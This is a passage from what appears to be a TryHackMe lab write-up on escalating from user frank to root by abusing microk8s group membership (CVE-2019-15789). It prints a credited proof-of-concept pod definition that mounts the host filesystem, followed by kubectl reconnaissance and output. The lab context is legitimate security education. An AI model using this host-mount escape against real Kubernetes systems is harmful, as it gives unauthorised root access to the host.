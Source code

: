 ## 3: Privesc version 1, frank -> root - CVE-2019-15789

I found 2 similar but distinct ways to privesc from frank to root, both of which exploit frank's membership of the microk8s group and both of which will go presented here. Given the breadth of the permissions available to members of the microk8s group (and the complexity of safe k8s configs...) it is likely that there are other methods.


A google search for "microk8s privelege escalation" throws up [CVE-2019-15789](https://nvd.nist.gov/vuln/detail/CVE-2019-15789), allowing low-privilege users to privesc on the host by provisioning a new container that mounts the host's file system. Whilst this has been fixed for low-privilege users, it is still possible to perform this "exploit" as a member of the microk8s group (this is not really an exploit, as members of the microk8s group are expected to perform high-privilege actions on the cluster). The same search also finds an exploit POC that includes a basic pod definition .yaml file that mounts the host's root at `/opt/root` ([credit to Denis Andzakovic at Pulse Security](https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation)) :

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```

Trying to run this POC as-is will result in an ImagePullErr for the new container. We can presume that this is either because the microk8s instance on the box can't reach the internet (no THM boxes can reach the internet), or because the local registry serving the cluster has no "ubuntu:latest" image. This feels like a show stopper, but the Kube-hunter output we saw in section 2 told us that there were other pods running on the machine - if their images came from a local registry, we may be able to reuse the same image in our exploit. To get information on the running pods, we can use kubectl - [if you're rusty on kubectl commands, the official cheat sheet is a great resource](https://kubernetes.io/docs/reference/kubectl/cheatsheet/) : 

```console
frank@dev-01:~$ microk8s kubectl get pods
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          11d
```
